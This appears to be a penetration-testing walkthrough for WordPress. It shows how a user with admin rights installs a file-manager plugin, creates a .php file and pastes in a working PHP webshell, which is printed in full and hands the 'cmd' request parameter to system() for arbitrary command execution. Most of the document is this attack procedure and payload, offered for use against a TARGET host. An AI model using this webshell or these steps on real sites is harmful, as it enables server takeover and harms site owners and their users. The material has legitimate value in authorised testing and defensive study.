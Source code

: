 
# Wordpress - Install File Managment Plugin 

In case uploading a plugin was not possible for any reason related to custom wordpress configuration or web server configuration ( Maximum upload size ), you could install a plugin and activate it through another feature.
## Requirements

 - A valid **username and password** of a user with **admin rights** on the Wordpress.

## Exploitation

### Accessing the dashboard

Connect with a user with administrative rights on the Wordpress at [http://TARGET/wp-login.php](http://TARGET/wp-login.php).


### Installing the plugin

- Then go on the "Plugin" --> "Add New" page.

![](./imgs/add_new.png)

- In the next step, type "File Manager" in the search bar and install any of those file managment plugin ( First one recommended ). Active the plugin from the same page after installing it.

![](./imgs/Installing_filemanager.png)

### Using the plugin

- On the side bar, you will find the plugin name, Navigate to its page. 

![](./imgs/plugin_page.png)


- Right click on the icon that is related to creating a new file --> Choose plain txt --> change filename extension from .txt to .php

![](./imgs/creating_new_file.png)

- Select the created file --> Right click --> Navigate to the code editor.

![](./imgs/code_edit.png)


- Paste your php webshell code.


```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>

```

![](./imgs/paste_phpshellcode.png)

- Navigate to the main URL of your target with attaching your created filename into it [http://TARGET/NewFile.php](http://TARGET/NewFile.php)

- Execute the commands.

![](./imgs/execute_commands.png)

## References
 - https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985
